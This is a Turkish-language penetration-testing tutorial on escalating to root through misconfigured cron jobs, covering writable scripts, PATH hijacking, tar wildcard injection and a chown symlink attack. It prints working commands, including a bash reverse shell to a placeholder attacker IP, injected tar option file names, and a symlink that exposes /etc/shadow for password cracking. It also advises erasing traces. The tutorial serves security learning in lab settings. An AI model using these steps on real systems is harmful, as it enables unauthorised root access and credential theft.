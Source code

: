 1.  **Yazma İznimiz Olan Betikler (Writable Scripts):** `root` kullanıcısı tarafından periyodik olarak çalıştırılan bir betiğe (`.sh` dosyası gibi) eğer biz yazma yetkisine sahipsek, betiğin içeriğini kendi zararlı kodumuzla değiştirerek `root` yetkileriyle komut çalıştırabiliriz.
2.  **PATH Zafiyeti (PATH Hijacking):** `root` tarafından çalıştırılan bir cron job, çalıştıracağı betiğin tam yolunu (`/usr/bin/script.sh` gibi) belirtmek yerine sadece ismini (`script.sh` gibi) kullanıyorsa, sistem bu betiği `PATH` değişkeninde tanımlı klasörlerde sırayla arar. Eğer `PATH` sıralamasında, betiğin orijinal konumundan önce gelen ve bizim yazma yetkimizin olduğu bir klasör varsa (örneğin `/tmp/` veya kendi `home` dizinimiz), oraya aynı isimde kendi betiğimizi koyarak orijinal betik yerine bizim betiğimizin `root` yetkilerinde çalışmasını sağlayabiliriz.

Bu iki senaryo, konunun özünü mükemmel bir şekilde özetliyor. Şimdi bu temelin üzerine yeni katlar çıkalım.

* * *

### 1\. Konuyu Derinleştirelim: Wildcard Injection (Joker Karakterler)

TryHackMe dersinin sonunda bahsettiği "wildcard" konusu çok kritiktir ve genellikle gözden kaçar. Bazı cron job'lar, belirli bir klasördeki tüm dosyaları işlemek için `*` (wildcard) karakterini kullanır. Örneğin, yedekleme yapan bir betik düşünelim:

Bash

```
# /usr/local/bin/backup.sh
cd /home/user/uploads/
tar -czf /var/backups/upload_backup.tar.gz *
```

Bu betik `root` tarafından her saat başı çalıştırılıyor olsun. `tar` komutu, `*` karakteri sayesinde `/home/user/uploads/` içindeki tüm dosyaları yedeklemeye çalışır. Buradaki zafiyet, `tar` gibi komutların dosya isimlerini aynı zamanda komut parametresi olarak yorumlayabilmesidir.

Eğer `/home/user/uploads/` klasörüne yazma yetkimiz varsa, bu durumu sömürebiliriz.

**Zafiyetin Sömürülmesi:**

`tar` komutunun `--checkpoint-action=exec=SHELL_COMMAND` gibi pek bilinmeyen ama güçlü bir parametresi vardır. Bu parametre, `tar`'ın belirli aralıklarla bir komut çalıştırmasını sağlar.

1.  **Saldırı Hazırlığı (Kendi Makinemizde):** Listener (dinleyici) açalım:
    
    Bash
    
    ```
    nc -lvnp 4444
    ```
    
2.  **Hedef Sistemde:** `/home/user/uploads/` klasörüne gidip aşağıdaki dosyaları oluşturalım:
    
    Bash
    
    ```
    cd /home/user/uploads/
    
    # Ters kabuk (reverse shell) almamızı sağlayacak komutu bir dosyaya yazıyoruz.
    # Hedefte bash varsa bu payload genellikle çalışır.
    echo 'bash -i >& /dev/tcp/SENIN_IP_ADRESIN/4444 0>&1' > shell.sh
    
    # tar komutunun bu dosyaları parametre olarak algılamasını sağlıyoruz.
    touch './--checkpoint-action=exec=sh shell.sh'
    touch './--checkpoint=1'
    ```
    

**Ne Oldu?** Cron job çalıştığında, `tar -czf ... *` komutu `*`'ı genişletecek ve dosya listesinde bizim oluşturduğumuz `./--checkpoint-action=...` ve `./--checkpoint=1` dosyalarını görecektir. `tar`, bu isimleri dosya olarak değil, kendisine verilmiş parametreler olarak yorumlayacak ve `shell.sh` betiğini çalıştıracaktır. Bu betik `root` tarafından çalıştırıldığı için, listener'ımıza `root` yetkilerinde bir shell düşecektir.

* * *

### 2\. Gelişim Seviyene Uygun Kaynaklar

Bu konuları pekiştirmek ve yenilerini öğrenmek için aşağıdaki kaynakları şiddetle tavsiye ederim:

- **Laboratuvarlar (Labs):**
    
    - **TryHackMe:** Henüz tamamlamadıysan "Linux PrivEsc" odasını kesinlikle bitirmelisin. Orada cron job'lar, SUID bitleri, kernel exploitleri gibi birçok vektör pratik olarak işleniyor.
    - **Hack The Box:** Artık kendini bir sonraki seviyeye taşımanın zamanı gelmiş olabilir. HTB'deki makineler, daha gerçekçi ve karmaşık senaryolar sunar.
    - **VulnHub:** Çevrimdışı çalışabileceğin, zafiyetli sanal makineler barındırır. "Kioptrix" serisi veya "Stapler" gibi makinelerle başlayabilirsin.
- **Web Siteleri ve Repolar:**
    
    - **GTFOBins:** Bu site senin kutsal kitabın olmalı. Bir Linux komutunun (binary) yetki yükseltme, dosya okuma/yazma veya shell alma gibi amaçlarla nasıl kötüye kullanılabileceğini gösteren bir referans kaynağıdır. Adres: https://gtfobins.github.io/
    - **PayloadsAllTheThings:** Adı üzerinde, aklına gelebilecek her türlü payload'u barındıran devasa bir GitHub reposu. Özellikle "Privilege Escalation" bölümü çok değerli. Adres: https://github.com/swisskyrepo/PayloadsAllTheThings
    - **RevShells.com:** Farklı sistem ve diller için (Bash, Python, Perl, nc, etc.) anında reverse shell payload'ları üreten pratik bir site.

* * *

### 3\. Pratik Senaryo: Adım Adım Pentest

Farz edelim ki bir sisteme `www-data` kullanıcısı olarak sızdın ve yetkini `root`'a yükseltmek istiyorsun.

**Adım 1: Keşif (Enumeration)** İlk işin her zaman sistemde neler olup bittiğini anlamaktır. Cron job'ları arayarak başlayalım.

- Sistem genelindeki cron job'ları kontrol et:
    
    Bash
    
    ```
    cat /etc/crontab
    ls -la /etc/cron.d/
    ```
    
    Diyelim ki `/etc/crontab` dosyasında şöyle bir satır gördün:
    
    ```
    */5 * * * * root    /opt/scripts/monitor.sh
    ```
    
    Bu, her 5 dakikada bir `root` kullanıcısının `/opt/scripts/monitor.sh` betiğini çalıştırdığı anlamına gelir.
    
- Manuel kontrole ek olarak, `pspy` gibi araçlar kullanarak sistemdeki işlemleri anlık olarak izleyebilirsin. `pspy`, cron job'ların ne zaman çalıştığını ve hangi komutları yürüttüğünü görmenin en etkili yollarından biridir.
    

**Adım 2: Zafiyet Analizi** Şimdi bulduğumuz `monitor.sh` betiğini ve bulunduğu dizini inceleyelim.

- Betiğin izinlerini kontrol et:
    
    Bash
    
    ```
    ls -l /opt/scripts/monitor.sh
    ```
    
    Çıktı: `-rwxr-xr-x 1 root root 58 Jun 10 14:25 /opt/scripts/monitor.sh` Gördüğün gibi, sahibi `root` ve sadece `root` yazma iznine sahip. Buradan bir şey çıkmaz.
    
- Betiğin bulunduğu dizinin izinlerini kontrol et:
    
    Bash
    
    ```
    ls -ld /opt/scripts/
    ```
    
    Çıktı: `drwxr-xr-x 2 root root 4096 Jun 10 14:25 /opt/scripts/` Bu dizine de sadece `root` yazabilir.
    
- Peki, betiğin içeriği ne?
    
    Bash
    
    ```
    cat /opt/scripts/monitor.sh
    ```
    
    İçerik:
    
    Bash
    
    ```
    #!/bin/bash
    cd /var/log/apache2
    /usr/bin/chown www-data:www-data *.log
    ```
    
    Aha! Bu betik, Apache loglarının bulunduğu dizine gidip oradaki tüm `.log` uzantılı dosyaların sahibini `www-data` yapıyor. `chown` komutu wildcard (`*`) kullanmıyor gibi görünse de, `*.log` ifadesi de kabuk (shell) tarafından genişletilir ve bu da bir wildcard zafiyetine yol açabilir! Ama burada daha basit bir yol var: **log dosyası oluşturma**.
    
    Biz `www-data` kullanıcısıyız ve `/var/log/apache2` dizinine yazma yetkimiz var. `chown` komutu, sembolik linkleri (symlink) takip eder.
    

**Adım 3: Zafiyeti Sömürme (Exploitation)**

1.  `/var/log/apache2` dizinine git:
    
    Bash
    
    ```
    cd /var/log/apache2
    ```
    
2.  `root` kullanıcısının şifrelerinin hash'ini içeren `/etc/shadow` dosyasına işaret eden bir sembolik link oluştur. Dosya adının `.log` ile bitmesi önemli.
    
    Bash
    
    ```
    ln -s /etc/shadow exploit.log
    ```
    
3.  Şimdi cron job'un çalışmasını bekle (en fazla 5 dakika). Cron job çalıştığında `/opt/scripts/monitor.sh` betiği de çalışacak ve şu komutu yürütecektir: `/usr/bin/chown www-data:www-data *.log`. Kabuk, `*.log` ifadesini genişlettiğinde `exploit.log` dosyasını bulacak. `chown` komutu da bu sembolik linki takip ederek orijinal dosyanın, yani `/etc/shadow` dosyasının sahibini `www-data` olarak değiştirecek!
    
4.  Kontrol et:
    
    Bash
    
    ```
    ls -l /etc/shadow
    ```
    
    Çıktı: `-rw-r----- 1 www-data www-data 1058 May 29 11:00 /etc/shadow` Artık `/etc/shadow` dosyasını okuyabiliriz!
    
5.  Dosyayı oku ve `root` kullanıcısının parolasını `john` veya `hashcat` ile kırmaya çalış.
    
    Bash
    
    ```
    cat /etc/shadow
    ```
    

* * *

### 4\. Geri Bildirim ve Sık Yapılan Hatalar

- **Yanlış Reverse Shell Payload'u:** TryHackMe'de sıkça kullanılan `nc -e /bin/bash` komutu, modern sistemlerin çoğunda çalışmaz. `nc`'nin `-e` opsiyonu genellikle derleme dışı bırakılır. Yukarıda gösterdiğim `bash -i >& ...` gibi daha evrensel payload'ları kullanmaya alış.
- **PATH Zafiyetinde Yanlış Dizin:** Bir PATH zafiyetini sömürürken, oluşturduğun sahte betiği `/tmp` gibi herkesin yazabildiği bir dizine koymak akıllıcadır. `PATH` değişkenini `echo $PATH` ile kontrol etmeyi ve dizinlerin sırasına dikkat etmeyi unutma.
- **İzleri Temizlememek:** Gerçek bir pentestte, yetki yükselttikten sonra sisteme yüklediğin betikleri, oluşturduğun dosyaları (`exploit.log`, `--checkpoint` dosyaları vb.) silerek arkanda iz bırakmamalısın.